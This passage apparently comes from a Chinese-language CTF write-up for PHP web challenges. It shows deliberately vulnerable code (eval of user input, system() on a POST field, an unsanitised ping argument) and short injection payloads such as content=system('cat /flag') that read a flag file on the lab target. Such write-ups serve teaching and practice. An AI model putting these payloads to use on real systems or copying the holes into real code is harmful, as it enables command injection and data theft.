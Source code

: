 ```
function hello_ctf($function, $content){
    global $flag;
    $code = $function . "(" . $content . ");";
    echo "Your Code: $code <br>";
    eval($code);
}
```

存在eval()函数，可以直接构造命令，与上题基本一致，payload：

```
GET：action=submit
POST：content=system('cat /flag')
```

----

# Level 3 - 命令执行

### 审计代码

```php
<?php

system($_POST['a']);

highlight_file(__FILE__);


?>
```

依旧是命令执行函数，这次为system()

与eval()函数不同的是：system()函数可以直接执行系统命令并返回输出

所以直接构造payload：`a=cat /flag`

----

# Level 4 - SHELL 运算符

### 审计代码

```php
<?php

function hello_server($ip){
    system("ping -c 1 $ip");
}

isset($_GET['ip']) ? hello_server($_GET['ip']) : null;

highlight_file(__FILE__);


?>
```
